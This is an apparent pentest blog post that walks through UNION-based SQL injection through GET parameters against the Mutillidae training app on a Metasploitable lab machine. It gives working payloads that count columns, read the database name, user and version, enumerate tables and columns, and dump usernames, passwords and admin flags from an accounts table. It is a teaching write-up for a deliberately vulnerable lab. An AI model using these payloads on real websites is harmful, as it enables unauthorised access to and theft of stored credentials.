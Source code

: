 +++
categories = ["Pentest", "Web"]
date = "2021-02-14"
title = "SQL Get Injection"
type = ["posts","post"]
[ author ]
  name = "nazori"
+++

This can be used when the web is sending information about the user from the databases. If this is done with the GET method we will be able to see the information displayed on the URL. There is where we will modify it. 



We are working with Mutillidae on Metasploitable. There's a page in which if you fill up your user and password it answers you with your user info. The output isw something like this:

*Username* = nazori

*Password* = jeje

*Signature*= lol

The URL will be like this one: 

```
http://10.0.2.4/mutillidae/index.php?page=user-info.php&username=nazori&password=jeje&user-info-php-submit-button=View+Account+Details
```

## Checking vulnerability

First of all, let's ensure that the vulnerability exists. We will try to order by a number of column that is ridiculus `order by 1000#`. We insert this on the URL request, after the first input. `#` is replaced by `%23` in html.

```
http//...
&username=nazori'order by 1000%23&...
```

If we get an SQL related error after this, it is vulnerable.

## Reading the database information

Following the previous example, we are now to determine the number of columns existing on the current database. For this we just have to try and error until we no longer get an error. In this case it is 5.

Now we use the UNION function on the SQL request. The UNION operator is used to combine the result-set of two or more SELECT statements. Replace the `'order by 5 #` for `'union select 1,2,3,4,5`. 

```
http//...
&username=nazori'union select 1,2,3,4,5%23&...
```

* Output

*the previous output plus*
 

*Username* = 2

*Password* = 3

*Signature*= 4

Now we know that we can write on those columns (2,3,4). We are now replacing the number on the request by functions that can give us some info.

```
http//...
&username=nazori'union select 1,database(),user(),version(),5%23&...
```
* Output
  
*Username*=owasp10

*Password*=root@localhost

*Signature*=5.0.51a-3ubuntu5

## Finding database tables

To find the infromation about the rests of the tables we are going to look for `information_schema.tables`. The information schema is an ANSI-standard set of read-only views that provide information about all of the tables, views, columns, and procedures in a database. 

```
http//...
&username=nazori'union select 1,table_name,null,null,5 from information_schema.tables%23&...
```
We would get an enormous amount of table names. We may not be interested in this, so we can filter it with `WHERE table_schema = 'owasp10'` which is the name of the current web app.

The output are 7 different table names.


## Data extraction

We are going to focus on the table named `accounts`. Request the column names to see whats inside the table.

```
http//...
&username=nazori'union select 1,column_name,null,null,5 from information_schema.columns where table_name = 'accounts'%23&...
```
* Output
  
 `cid username password mysignature is_admin` 

Now that we know the names of the columns we can ask for specific info inside the columns.

```
http//...
&username=nazori'union select 1,username,password,is_admin,5 from accounts%23&...
```


